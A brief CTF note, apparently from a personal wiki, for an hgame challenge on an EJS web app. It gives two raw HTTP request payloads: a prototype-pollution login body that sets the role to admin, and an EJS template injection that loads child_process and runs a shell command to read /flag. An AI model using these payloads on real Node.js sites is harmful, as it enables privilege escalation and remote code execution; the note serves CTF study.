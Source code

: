 tags:: EJS

- # 原型链污染
	- [[CTF/JS/原型链污染]]
	- payload
		- ```http
		  POST /login HTTP/1.1
		  Host: week-4.hgame.lwsec.cn:30052
		  Content-Length: 88
		  Cache-Control: max-age=0
		  Upgrade-Insecure-Requests: 1
		  Origin: http://week-4.hgame.lwsec.cn:30052
		  Content-Type: application/json
		  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
		  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
		  Referer: http://week-4.hgame.lwsec.cn:30052/login
		  Accept-Encoding: gzip, deflate
		  Accept-Language: en-US,en;q=0.9
		  Cookie: session=s%3A5xIDo7I-fsq9AMb-jXdy9fb9-Rj3iT9C.G7VOUI1cvglTSaduhuuxOYl%2FH65pfSFmV2iV59GzsPw
		  Connection: close
		  
		  {"username":"admin","password":"idontknow","constructor":{"prototype":{"role":"admin"}}}
		  ```
- # EJS SSTI
	- payload
		- ```http
		  POST / HTTP/1.1
		  Host: week-4.hgame.lwsec.cn:30052
		  Content-Length: 99
		  Cache-Control: max-age=0
		  Upgrade-Insecure-Requests: 1
		  Origin: http://week-4.hgame.lwsec.cn:30052
		  Content-Type: application/x-www-form-urlencoded
		  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
		  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
		  Referer: http://week-4.hgame.lwsec.cn:30052/
		  Accept-Encoding: gzip, deflate
		  Accept-Language: en-US,en;q=0.9
		  Cookie: session=s%3A5xIDo7I-fsq9AMb-jXdy9fb9-Rj3iT9C.G7VOUI1cvglTSaduhuuxOYl%2FH65pfSFmV2iV59GzsPw
		  Connection: close
		  
		  diary=<%25%3dglobal.process.mainModule.constructor._load('child_process').execSync("cat+/flag")%25>
		  ```